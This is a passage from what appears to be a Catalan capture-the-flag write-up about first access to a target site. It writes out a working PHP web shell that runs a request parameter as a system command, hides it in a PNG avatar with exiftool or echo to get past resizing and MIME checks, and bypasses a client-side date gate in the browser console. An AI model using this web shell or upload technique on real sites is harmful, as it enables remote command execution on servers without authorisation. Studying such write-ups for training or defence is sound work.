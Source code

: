 Per obtenir el primer accés, primer necessitem preparar una imatge per al nostre avatar amb una web shell, és important que aquesta imatge sigui menor a 150 píxels perquè en pujar-la no sigui transformada, el que causaria que la shell inclosa a la imatge es perdi o es corrompi.

També és important que la imatge estigui en format PNG, i no n'hi ha prou amb només canviar l'extensió; també es verifica el mimetype, per la qual cosa és millor utilitzar una imatge real.

Creant una imatge amb una web shell PHP incrustada, per evitar que la imatge es vegi afectada, podem incloure-la, per exemple, com un comentari a la imatge. Prefereixo aquest mètode ja que la imatge no es modifica.

```
$ exiftool -comment='<?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; }?>' avatar.png
```

Una altra manera és incloure-la directament a la imatge, però només incloure-la una vegada.

```
$ echo '<?php if(isset($_REQUEST["cmd"])){  echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; }?>' >> avatar.png
```

Ens registrem amb un usuari utilitzant la imatge creada com a l'avatar de l'usuari, i anotem la contrasenya.

Ara necessitem fer creure al lloc que ha arribat l'hora del llançament, podem fer-ho de diferents maneres. Canviant la data a la nostra computadora, també podem desofuscar el codi i acabar veient el formulari d'inici de sessió i quin és l'endpoint/URL POST on es fan arribar les credencials, o simplement modificant la variable dateFinish que hem trobat.

Per modificar aquesta variable, obrim la consola del navegador prement la tecla F12 i canviem la data de llançament a la data actual entrant:

```
dateFinish = new Date();
```

![img_p6_2](../../../assets/images/twitx/img_p6_2.png)

Fent això es mostrarà l'enllaç de Log-in per iniciar sessió amb l'usuari creat.

![img_p7_1](../../../assets/images/twitx/img_p7_1.png)
